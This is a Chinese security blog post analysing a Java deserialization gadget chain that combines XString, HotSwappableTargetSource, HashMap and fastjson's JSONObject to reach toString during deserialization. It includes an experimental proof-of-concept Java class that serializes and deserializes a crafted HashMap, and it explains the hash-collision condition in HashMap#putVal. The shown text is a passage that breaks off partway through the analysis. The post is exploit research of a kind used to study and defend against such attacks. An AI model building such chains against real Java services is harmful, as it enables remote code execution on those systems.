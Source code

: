 #  HotSwappableTargetSource+XString利用分析   
 船山信安   2025-05-13 16:01  
  
# HotSwappableTargetSource+XString利用分析  
  
  
前言：为什么 XString 需要配合 HotSwappableTargetSource 进行利用而不能直接单独使用由 equals 调用到 tostring 方法。  
  
## XString 构造  
  
  
这里先尝试只用 XString 来进行构造看能不能调用到 tostring 方法，拿调用 JsonObject#toString  
 来实验，那么链子如下，  
  
```
HashMap#readObject->HashMap#putVal->XString#equals->JsonObject#toString->
```  
  
先照着 HotSwappableTargetSource 的格式写个 poc  
  
```
package org.example;  import com.alibaba.fastjson.JSONObject;  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  import com.sun.org.apache.xpath.internal.objects.XString;  import org.springframework.aop.target.HotSwappableTargetSource;  import java.io.*;  import java.lang.reflect.Constructor;  import java.lang.reflect.Field;  import java.nio.file.Files;  import java.nio.file.Paths;  import java.util.Base64;  import java.util.HashMap;  public class xstringtest {      public static void main(String[] args) throws Exception {          Object templatesimpl = null;          JSONObject jsonObject = new JSONObject();          jsonObject.put("g","m");          JSONObject jsonObject1 = new JSONObject();          jsonObject1.put("g",templatesimpl);  //        HotSwappableTargetSource v1 = new HotSwappableTargetSource(jsonObject);  //        HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("x"));          XString xs= new XString("x");          HashMap<Object,Object> hashMap = new HashMap<>();          hashMap.put(jsonObject ,jsonObject);          hashMap.put(xs,xs);          serialize(hashMap);          unserialize("ser.bin");      }      public static void setValue(Object obj,String field,Object value) throws Exception{          Field f = obj.getClass().getDeclaredField(field);          f.setAccessible(true);          f.set(obj,value);      }      public static void serialize(Object obj) throws IOException {          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));          oos.writeObject(obj);          oos.close();      }      public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));          Object obj = ois.readObject();          return obj;      }  }
```  
  
看上面 gadget，其实最主要的部分还是 HashMap#putVal- >XString#equals  
 这段调用，进入 HashMap#putVal  
 方法看到要想调用到 key.equals 需要不满足一个 if 条件，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXy5bTXsPnCtveq3BeQ5smkicd9KYK8R0ibq9BPJ0JZfL0SHhrd5s7DJFg/640?wx_fmt=png&from=appmsg "")  
  
  
需要想 hashmap 中添加两个键值对，然后注意到 tab[i = (n - 1) & hash]  
，会判断这个 tab[i]  
 是不是空，不是就会调用 equals 方法。  
  